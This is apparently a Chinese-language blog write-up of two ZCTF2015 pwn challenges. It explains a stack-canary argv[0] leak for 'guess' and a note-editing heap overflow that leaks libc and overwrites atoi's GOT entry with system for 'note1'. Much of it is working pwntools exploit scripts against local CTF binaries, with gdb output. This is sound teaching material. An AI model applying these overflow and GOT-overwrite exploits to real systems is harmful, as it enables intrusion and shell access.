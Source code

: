 ```yaml
---
title: ZCTF2015 pwn
tags:
  - PWN
  - writeup
categories: []
date: 2017-02-17 17:59:16
---
```


整理了一下ZCTF2015的pwn，看看出题思路。。

## guess 100

这个应该时之前ctftime上的一个比赛的题，应该时zctf借鉴的。。我觉得这次也很有可能会出之前比赛的题目

```
pwndbg> checksec 
[*] '/home/ubuntu/ctf-problem/2015zctf/pwn/pwn1/guess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE

```

有canary，但是有栈溢出，栈溢出后`__stack_check_fail`会打印程序的名字，也就是`argv[0]`的值，我们溢出修改`argv[0]`的值为之前加载到内存的`flag`的地址即可。
[相关的ppt](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)

断点在`fgets(&::s, v8 + 1, stream);`，也就是`.text:0000000000400A61                 call    _fgets`前

```
    fseek(stream, 0LL, 0);
    fgets(&::s, v8 + 1, stream);
    fclose(stream);
```

gdb查看得到加载的地址

```
pwndbg> pd
 ► 0x400a61    call   fgets@plt                     <0x400800>
        s: 0x6010c0 ◂— 0x0
        n: 0x24
        stream: 0x602010 ◂— 0xfbad2488
 
   0x400a66    mov    rax, qword ptr [rbp - 0x48]
   0x400a6a    mov    rdi, rax
   0x400a6d    call   fclose@plt                    <0x4007a0>

```

exp如下，第一个用于获取`flag`长度，第二个用于攻击：

```
from pwn import *
 
 if __name__ == '__main__':
     for i in range(40):
         payload = i *'a'
         p = process('./guess')
         print p.recvuntil('\n')
         p.sendline(payload)
         result = p.recvuntil('\n')
         if 'ZCTF' in result:
             print 'len=', i
             p.close()
			 break
         p.close()
```

```
from pwn import *
 context.log_level = 'debug'
 
 s = process('./guess')
 s.recvuntil('please guess the flag:')
 payload='ZCTF{'+'A'*(32-5) + '\x00' + 'a'*263 + p64(0x6010C5)
 s.sendline(payload)
 s.recvuntil('***: ')
 flagt = s.recvuntil('\n')[:27]
 flag  = 'ZCTF{'
 for i in flagt:
     flag += chr(ord(i)^ord('A'))
 print flag
 s.close()
```

## note1 200

checksec

```
pwndbg> checksec 
[*] '/home/ubuntu/ctf-problem/2015zctf/pwn/pwn2/note1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

看了下程序，edit可以溢出修改到下一个note的指针，输出got表里puts的地址，因为这里的content是偏移了0x70位的，所以要减去0x70。最后修改atoi为system，输入/bin/sh

但是有一个地方不明白，got表的高8byte是什么？

```
0x602018 <puts@got.plt>:	0x00007ffff7a7d690	0x0000000000400706
0x602028 <printf@got.plt>:	0x00007ffff7a63800	0x00007ffff7ad9650
0x602038 <read@got.plt>:	0x00007ffff7b04670	0x00007ffff7a2e740
0x602048 <strcmp@got.plt>:	0x00007ffff7aac9c0	0x0000000000400766
0x602058 <malloc@got.plt>:	0x00007ffff7a91580	0x00007ffff7a7de70
0x602068 <atoi@got.plt>:	0x00007ffff7a44e80	0x00000000004007a6
```

exp:

```
from pwn import *

DEBUG = 0
if DEBUG:
    context.log_level = 'debug'

elf = ELF('./note1')
libc = ELF('libc.so.6')

atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_off = libc.symbols['puts']
read_off = libc.symbols['read']
system_off = libc.symbols['system']

p = process('./note1')
def new(title, types, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(title)
    p.recvuntil(':')
    p.sendline(types)
    p.recvuntil(':')
    p.sendline(content)
    return

def editnote(title,content):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil(':')
    p.sendline(title)
    p.recvuntil(':')
    p.sendline(content)
    return

def shownote():
    p.recvuntil('option--->>\n')
    p.sendline('2')
    return

def main():
    payload = (0x100 + 0x10)*'a'+p64(0)+p64(puts_got - 0x70)+'b'
    new('a', 'aa', 'aaa')
    new('b', 'bb', 'bbb')
    editnote('a', payload)
    shownote()
    p.recvuntil('\n')
    p.recvuntil('content=')
    buf = p.recvuntil('\n')[:-1] + '\x00\x00'
    puts = u64(buf)
    print puts
    libc_base = puts - puts_off
    log.success('Libc base = ' + hex(libc_base))
    read = libc_base + read_off
    system = libc_base + system_off
    new_got = p64(puts) + 'a'*24+p64(read)+'a'*40+p64(system)
    editnote('',new_got)
    p.sendline('/bin/sh')
    p.interactive()
    return 0

if __name__ == '__main__':
    main()
```